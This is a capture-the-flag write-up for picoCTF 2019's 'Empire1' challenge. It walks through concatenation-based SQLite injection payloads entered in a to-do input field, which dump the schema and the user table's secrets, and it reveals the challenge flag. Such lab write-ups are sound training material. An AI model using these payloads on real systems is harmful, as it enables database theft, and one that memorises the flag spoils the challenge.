 # Empire1 - Points: 400

1. First, lets go through the website : https://2019shell1.picoctf.com/problem/4155/
2. Then, register an account.
3. Next, lets look around the website and see that there is only a part that we can type something in it : https://2019shell1.picoctf.com/problem/4155/add_item
4. If we can type something in it, it means that it might be injected. The only thing is what kind of injection it is. First, I tried sql injection with https://stackoverflow.com/questions/23372550/what-does-sql-select-symbol-mean/23372603 . As you can see, the payload become : 
    ```
    '||(select sql from sqlite_master)||'
    ```
    So, what is the command for? First, you have to know what is sqlite. Here is the payload : 
    ```
    CREATE TABLE sqlite_master (
      type TEXT,
      name TEXT,
      tbl_name TEXT,
      rootpage INTEGER,
      sql TEXT
    );
    ```
    As you can see, I select sql to know what is in it's database from sqlite_master.
    p.s. If you have no idea what I am talking about, I strongly recommend you to read some documents about sql.
    And you can click "Your todos" button to get informations.
    ```
    CREATE TABLE user ( 
        id INTEGER NOT NULL, 
        username VARCHAR(64), 
        name VARCHAR(128), 
        password_hash VARCHAR(128), 
        secret VARCHAR(128), 
        admin INTEGER, 
        PRIMARY KEY (id) 
        )
    ```
5. Now, you have the whole informations about what table ("user"), and the very interesting part is the "secret". The mission now is to think of a payload that can grab those informations out. 
    ```
    '||(select secret from user)||'
    ```
    And the result is : 
    ```
    Likes Oreos.
    ```
    So, there is no informations or we didn't pull out all data in it. Lets switch to another payload by "group_concat()" https://www.w3resource.com/sqlite/aggregate-functions-and-grouping-group_concat.php
    And here is the new payload : 
    ```
    '||(select group_concat(secret) from user)||'
    ```
    Finally, you can get the flag.
6. Here is the flag : picoCTF{wh00t_it_a_sql_injectd75ebff4}
